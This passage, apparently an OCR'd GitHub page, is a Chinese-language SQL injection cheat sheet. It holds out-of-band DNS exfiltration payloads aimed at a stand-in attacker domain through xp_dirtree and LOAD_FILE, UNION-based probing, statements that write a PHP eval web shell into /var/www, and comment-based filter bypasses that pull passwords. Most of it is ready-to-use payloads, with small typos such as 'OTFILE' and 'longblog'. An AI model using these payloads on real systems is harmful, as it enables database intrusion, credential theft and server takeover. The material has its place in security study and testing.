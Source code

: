 利用SQL Server的xp_dirtree的存储过程，列出网络驱动\\7da687a6dwji879.evil.site\下的目录，执行操作时将向攻击者域名服务器发送DNS请求，攻击者可通过查看DNS日志判断注入是否成功

```
http://example.com/item.aspx?id=1;EXEC master..xp_dirtree '\\7da687a6dwji879.evil.site\' --
```

MySQL中使用LOAD_FILE函数加载网络驱动文件同样会发送DNS请求，但当配置secure_file_priv为NULL时将不允许访问目录

```sql
select LOAD_FILE('\\\\7da687a6dwji879.evil.site\\1.txt')
```

Oracale数据库中可使用UTL_INADDR.GET_HOST_ADDRESS、UTL_HTTP.REQUEST等函数发送请求

#### 二次注入

将恶意数据存储于数据库，应用程序读取时生成新的SQL语句，也称存储型SQL注入

### SQL注入技巧

#### 常见技巧

* 猜测版本号，如：大版本号为8则返回True

```
http://example.com/item.php?id=1 and substring(@@version,1,1)=8
```

* 判断表、列是否存在，在此基础上可进一步通过判断字符范围来确定具体值，可利用工具sqlmap完成

```sql
id=1 union all select 1,2,3 from user
id=1 union all select 1,2,username from user
```

https://github.com/jason-blog/blog/blob/master/Kali/Sqlmap%E4%BD%BF%E7%94%A8%E6%95%99%E7%A8%8B%E3%80%90%E4%B8%AA%E4%BA%BA%E7%AC%94%E8%AE%B0%E7%B2%BE%E5%8D%8E%E6%95%B4%E7%90%86%E3%80%91.MD

* MySQL利用LOAD_FILE函数读取系统文件，前提是数据库具备读取权限
* 使用INTO OTFILE可以将文件写入Web目录

```
id=1 union select '<?php eval($_GET[x]);?>' into outfile '/var/www/shell.php'
```

* 使用INTO DUMPFILE写入二进制文件，受URL长度限制时可将内容分批次写入一个表中，再导出到指定位置

```
create table test(data longblog);
insert into test(data) value (...);
update test set data=concat(data,...);
.....
select data from test into dumpfile "/var/www/shell.php"
```

* 使用注释符或换行符绕过关键词过滤

```
id=1 union-- abc%0D%0Aselect passwd from user
```
